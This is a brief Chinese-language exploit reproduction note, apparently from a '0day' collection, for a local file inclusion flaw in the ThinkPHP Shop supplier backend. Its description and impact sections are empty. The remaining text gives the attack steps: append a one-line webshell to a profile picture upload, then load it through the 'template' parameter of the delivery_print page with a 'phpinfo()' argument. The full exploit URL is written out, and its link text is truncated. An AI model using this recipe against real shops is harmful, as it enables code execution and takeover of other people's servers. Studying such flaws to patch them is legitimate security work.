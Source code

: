 # Thinkphp Shop 供应商后台本地文件包含导致权限提升

> 原文：[http://book.iwonder.run/0day/Thinkphp shop/3.html](http://book.iwonder.run/0day/Thinkphp shop/3.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、用户个人资料修改处上传图片

[http://www.0-sec.org/Home/User/info.html](http://www.0-sec.org/Home/User/info.html)

### 2、上传一张正常图片，并在图片末尾加上一句话

### 3、返回 shell

[http://www.0-sec.org/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo(](http://www.0-sec.org/supplier/order/delivery_print?template=public/upload/user/4575/head_pic/5989ee42cc5992e64a60c52b0cbb7602.png&w=phpinfo());


